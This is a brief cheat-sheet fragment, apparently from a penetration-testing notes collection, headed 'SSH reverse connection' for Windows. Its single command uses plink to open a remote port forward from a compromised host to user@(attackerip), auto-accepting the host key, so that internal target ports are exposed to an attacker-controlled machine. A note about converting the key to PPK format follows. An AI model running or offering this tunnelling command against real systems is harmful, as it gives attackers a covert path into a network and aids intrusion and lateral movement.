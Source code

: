 # Windows

# SSH reverse connection

```
cmd.exe /c echo y | .\\plink.exe -R (localport):(targetip):(targetport) user@(attackerip) -i KEYFILE -N
# must convert the key from ssh-keygen to ppk using puttygen

```
